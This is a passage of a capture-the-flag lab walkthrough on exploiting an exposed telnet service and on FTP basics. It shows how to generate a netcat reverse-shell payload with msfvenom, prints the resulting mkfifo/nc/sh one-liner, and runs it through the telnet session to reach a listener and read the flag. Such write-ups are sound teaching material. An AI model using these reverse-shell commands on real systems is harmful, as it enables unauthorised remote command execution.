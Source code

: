 A reverse shell payload can be generated using msfvenom and can be exploited from listening netcat session.
{% capture code %}{% raw %}msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=4444 R{% endraw %}{% endcapture %} {% include code.html code=code%}

The basic options used in msfvenom.
- `-p` - payload
- `lhost` - local IP address
- `lport` - local port to listen
- `R` - export payload in raw format

An output similar to below will be obtained.
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/gqbn; nc <local-ip> 4444 0</tmp/gqbn | /bin/sh >/tmp/gqbn 2>&1 ; rm /tmp/gqbn{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `netcat` to listen for reverse proxy connection in separate session.
{% capture code %}{% raw %}nc -lvp 4444{% endraw %}{% endcapture %} {% include code.html code=code%}

From the `telnet` session, initiate the reverse payload generated from `msfvenom`.
{% capture code %}{% raw %}.RUN mkfifo /tmp/gqbn; nc <local-ip> 4444 0</tmp/gqbn 2>&1 | /bin/sh >/tmp/gqbn ; rm /tmp/gqbn{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained in telnet listener session.
{% capture code %}{% raw %}listening on [any] 4444 ...
<ip>: inverse host lookup failed: Unknown host
connect to [<local-ip>] from (UNKNOWN) [<ip>] 51102{% endraw %}{% endcapture %} {% include code.html code=code%}

Capture the flag.
{% capture code %}{% raw %}cat flag.txt
  <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}


## FTP


### Task 7 - Understanding FTP

### References
- [FTP Reference](https://www.ietf.org/rfc/rfc959.txt){:target="_blank"}


An active FTP connection is where the client opens a port and listens, and server is required to connect. A passive FTP connection is where server opens a port and client listens to it.


### Task 8 - Enumerating FTP

### References
- [FTP Exploit](https://www.exploit-db.com/exploits/20745){:target="_blank"}
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}
